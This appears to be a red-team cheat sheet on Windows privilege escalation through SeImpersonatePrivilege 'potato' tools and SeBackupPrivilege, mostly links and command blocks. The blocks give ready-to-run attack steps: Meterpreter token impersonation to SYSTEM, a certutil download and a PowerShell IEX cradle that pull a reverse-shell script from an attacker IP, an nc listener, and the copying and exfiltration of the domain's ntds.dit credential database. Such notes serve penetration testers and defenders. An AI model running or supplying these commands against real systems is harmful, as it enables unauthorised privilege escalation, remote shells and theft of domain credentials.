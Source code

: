 # Privileges Abuse

* [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

## SeImpersonatePrivilege

* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

### Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes\_Windows\_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

#### foxglovesec/RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```text
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

#### decoder/the-lonely-potato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)

#### ohpe/juicy-potato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```text
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
...Change LHOST to 10.10.13.37 and LPORT to 443...
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
$ sudo rlwrap nc -lvnp 443
Cmd > .\j.exe -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
```

### PrintSpoofer

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1)

```text
PS > . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Users\snovvcrash\music\pwn.exe"
```

### Restore Privilege

* [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)

## SeBackupPrivilege

### SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```text
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```

### robocopy

```text
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```

